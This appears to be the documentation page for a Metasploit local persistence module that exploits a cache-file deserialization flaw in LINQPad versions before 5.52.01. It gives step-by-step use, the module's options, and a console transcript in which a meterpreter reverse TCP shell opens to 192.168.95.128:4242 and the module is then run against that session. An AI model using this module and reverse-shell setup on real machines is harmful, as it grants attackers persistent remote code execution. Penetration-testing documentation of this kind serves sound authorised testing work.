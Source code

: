 ## Vulnerable Application

LINQPad is a scratchpad for .NET programming. Versions prior to 5.52.01 contain a deserialization vulnerability in processing cache file when program is starting. Application can be downloaded from [here](https://www.linqpad.net/LINQPad5.aspx).

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get Meterpreter/cmd shell
4. Run: `use windows/local/linqpad_deserialization_persistence`
5. Set payload - for example `set payload cmd/windows/generic` - and corresponding parameters
6. Set parameters `session`, `cache_path`, `linqpad_path`, `cleanup`
7. Run exploit

## Options

### cleanup

Enable cleanup of malicious file. The module will replace cache filewith malicious content. If `cleanup` is enabled, after successful execution, the module will remove malicious cache file. The original file will be restored upon re-execution of Linqpad.

### cache\_path

The parameter sets path for folder, where vulnerable cache file is present. This is crucial part of the exploit as the folder can be used to identify whether the current version is vulnerable and the payload delivery is performed through cache file. 

### linqpad\_path

Final part of exploit runs the LINQPad to trigger deserialization procedure. The `linpad_path` parameter sets the path to LINQPad binary, which is ran at the end of exploit.

## Scenarios

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 192.168.95.128
msf exploit(multi/handler) > set LPORT 4242
msf exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.95.128:4242 
[*] Meterpreter session 1 opened (192.168.95.128:4242 -> 192.168.95.130:53430) at 2024-12-30 12:46:16 +0100

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use windows/local/linqpad_deserialization_persistence
msf exploit(windows/local/linqpad_deserialization_persistence) > set LINQPAD_FILE C:/ProgramData/LINQPad/Updates50.AnyCPU/552/LINQPad.exe
msf exploit(windows/local/linqpad_deserialization_persistence) > set payload windows/exec/cmd
msf exploit(windows/local/linqpad_deserialization_persistence) > set cache_path C:/Users/ms/AppData/Local/LINQPad
msf exploit(windows/local/linqpad_deserialization_persistence) > set CMD calc.exe
msf exploit(windows/local/linqpad_deserialization_persistence) > set session 1
msf exploit(windows/local/linqpad_deserialization_persistence) > exploit
[*] Exploit completed, but no session was created.
```

Previous example will run `calc.exe` when LINQPad will start.

